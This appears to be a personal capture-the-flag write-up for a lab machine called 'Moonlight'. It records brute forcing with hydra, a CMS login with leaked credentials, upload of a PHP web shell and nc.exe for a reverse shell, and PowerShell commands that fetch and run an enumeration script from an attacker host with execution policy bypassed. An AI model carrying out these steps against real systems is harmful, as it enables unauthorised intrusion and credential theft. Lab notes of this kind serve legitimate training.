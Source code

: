 # Moonlight

__MACHINE IP__: 10.1.1.58

__DATE__: 17/05/2019

__START TIME__: 1:40

---

`NMAP`
-----

![](Images/nmap.png)

hmm...lot of different services running.

So we need to start 3 process:

1) dirsearch to enum the website on port `8080`

2) enum4linux to get some more info

3) nmap's `ftp-brute` script to see if FTP allows `anonymous` login


`dirsearch`
----------

![](Images/dir.png)


![](Images/ftpbrute.png)

No valid account found


- cewl se password list banao

![](Images/hydra.png)

![](Images/access.png)


In access.txt

```
Dear  Helper , Thank you for your motivation .

the credentials to pass the authentification page are the following collaborator:secret .

The password for the Administrative Access on the Content Management System is the same ,

Marco
```

- go to http://10.1.1.58:8080/content/ and use the `collaborator:secret` cred
- go to http://10.1.1.58:8080/content/admin login with `admin:secret`
- Found https://www.exploit-db.com/exploits/40008
- uploaded reverse shell for Linux got error
- Then upload webshell
    + https://github.com/artyuum/Simple-PHP-Web-Shell/blob/master/index.php
    + ignore error

![Listen](Images/upload.png)

![Listen](Images/uploaded.png)
- Start the recon

![](Images/recon1.png)

- Got the password

![](Images/password.png)

```xml
<?xml version="1.0"?>
<item>
    <USR>admin</USR>
    <PWD>e5e9fa1ba31ecd1ae84f75caaa474f3a663f05f4</PWD>
    <EMAIL>admin@moonlight.net</EMAIL>
    <HTMLEDITOR>1</HTMLEDITOR>
    <TIMEZONE/>
    <LANG>en_US</LANG>
</item>
```

But we already knows that

- After some more looking around

![](Images/user.png)

- Found some api key

![](Images/apikey.png)


- `netstat -ano`

![Listen](Images/listen.png)


- uploaded `nc.exe`
- got rev
![](images/rev)

![](images/user-1.png)

## Privilege escalation

```
powershell.exe
Invoke-WebRequest http://10.254.0.6:8000/winenum.ps1 -outfile enum.ps1
exit

powershell.exe -ExecutionPolicy Bypass -File .\enum.ps1
```

Enumerate
